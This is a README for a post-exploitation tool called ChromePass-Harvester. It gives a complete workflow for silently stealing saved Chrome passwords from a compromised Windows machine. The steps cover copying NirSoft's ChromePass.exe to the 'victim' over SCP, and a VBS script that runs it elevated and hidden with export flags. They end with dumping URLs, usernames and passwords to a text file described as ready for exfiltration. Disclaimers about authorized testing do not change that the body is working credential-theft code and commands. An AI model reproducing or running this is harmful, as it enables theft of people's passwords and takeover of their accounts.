 # 🕵️‍♂️ ChromePass-Harvester

**Harvest saved Google Chrome passwords silently using ChromePass.exe (Post-Exploitation CLI Tool)**  

---

## 📖 Description

This repository contains a **VBS script** that automates the harvesting of saved Google Chrome passwords from a Windows system using [ChromePass](https://www.nirsoft.net/password_recovery_tools.html).  

It is mainly used in **post-exploitation scenarios**, where you already have access to a target system (usually via CLI), and want to **quickly extract all stored Chrome passwords**:

- Runs **ChromePass silently** without GUI.  
- Extracts **all saved passwords automatically**.  
- Saves output to a **TXT file** in a specified folder.  
- Requests **admin privileges** for proper execution.  

> ⚠ **Disclaimer:** Only use this script for **authorized penetration testing or educational labs**. Using it on unauthorized systems is illegal.  

---

## 🔑 Key Features

- 🌟 Fully CLI-based, ideal for post-exploitation environments.
- 🤫 Silent execution — no GUI pop-ups.
- 🔐 Requires admin privileges to extract all credentials.
- 📄 Saves output to a plain text file for easy exfiltration.

---

## 🛠️ Workflow (Post-Exploitation Scenario)

### 1️⃣ Gain access to the target

You already have **remote access** (e.g., via SSH, RDP, Meterpreter, etc.):

```
victim> whoami
victim> hostname
```

### 2️⃣ Transfer ChromePass CLI to the target

1. Download the **command-line version of ChromePass** from NirSoft:  
   [Download CLI tools package](https://www.nirsoft.net/password_recovery_tools.html)  

   > ⚠ Note: NirSoft removed command-line export from major tools. You need the **special CLI package**:  
   - Username: `download`  
   - Password: `nirsoft123!`  
   - Extract using password: `nirsoft123!`  

2. Transfer ChromePass.exe to the target using **SCP** (example):

```bash
attacker> scp D:\Tools\ChromePass.exe victim@192.168.1.100:C:\Temp\
```
3. Check on the victim machine:
```
victim> dir C:\Temp
ChromePass.exe
```

### 3️⃣ Create the VBS script on the target

Open Notepad on the victim system:
```
victim> notepad C:\Temp\run_chromepass.vbs
```
Paste the following script:
```vbs
Option Explicit

Dim fso, shellApp, exePath, outputFolder, outputFile, args

' --- Full paths ---
exePath = "C:\Path\to\passreccommandline\ChromePass.exe"
outputFolder = "C:\path\to\temp"
outputFile = outputFolder & "\ChromePasswords.txt"

Set fso = CreateObject("Scripting.FileSystemObject")

' --- Create output folder if it doesn't exist ---
If Not fso.FolderExists(outputFolder) Then
    fso.CreateFolder(outputFolder)
End If

args = "/stext """ & outputFile & """ /all /savesilent"

Set shellApp = CreateObject("Shell.Application")
shellApp.ShellExecute exePath, args, "", "runas", 1
```

Save the file as run_chromepass.vbs.

### 4️⃣ Execute the VBS script (Elevated Privileges)

Run the script from victim shell:
```
victim> cscript C:\Temp\run_chromepass.vbs
```

The script will prompt for admin privileges.

ChromePass runs silently, harvesting all saved Chrome passwords.

Output is saved as:
```
C:\path\to\ChromePasswords.txt
```
### 5️⃣ Verify harvested passwords
```
victim> type C:\Path\to\ChromePasswords.txt
```

You should see a list of saved Chrome URLs, usernames, and passwords.

---

> ⚠ Disclaimer

This tool is strictly for authorized use:

- Only run on systems you own or have explicit permission to test.
- Unauthorized use is illegal and may result in criminal charges.
- By using this script, you assume full responsibility for its actions.
